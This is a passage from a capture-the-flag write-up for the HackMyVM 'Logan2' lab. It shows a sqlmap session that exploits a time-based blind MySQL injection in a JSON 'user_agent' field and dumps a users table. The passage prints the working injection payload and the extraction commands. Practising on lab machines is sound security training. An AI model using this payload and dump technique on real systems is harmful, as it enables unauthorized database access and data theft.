 I saperately ran the command to extract data it was taking so much time →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Logan2]
└─$ sqlmap -r sqli.txt --dump -D logan -T users 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   "https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end users responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:55:38 /2023-10-12/

[13:55:38] [INFO] parsing HTTP request from 'sqli.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
Y
[13:55:47] [INFO] resuming back-end DBMS 'mysql' 
[13:55:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: { "user_agent": "1' AND (SELECT 9966 FROM (SELECT(SLEEP(5)))OcQg) AND 'eoXp'='eoXp" }
---
[13:55:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.57
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:55:47] [INFO] fetching columns for table 'users' in database 'logan'
[13:55:47] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[13:55:48] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[13:56:05] [INFO] retrieved: 
[13:56:10] [INFO] adjusting time delay to 1 second due to good response times
user
[13:56:22] [INFO] retrieved: email
[13:56:36] [INFO] fetching entries for table 'users' in database 'logan'
[13:56:36] [INFO] fetching number of entries for table 'users' in database 'logan'
[13:56:36] [INFO] retrieved: 1
[13:56:37] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
logan
[13:56:56] [INFO] retrieved: logan@newsitelogan.logan.hmv
Database: logan
Table: users
[1 entry]
+------------------------------+--------+
| email                        | user   |
+------------------------------+--------+
| logan@newsitelogan.logan.hmv | logan  |
+------------------------------+--------+

[13:58:42] [INFO] table 'logan.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.0.2.69/dump/logan/users.csv'
```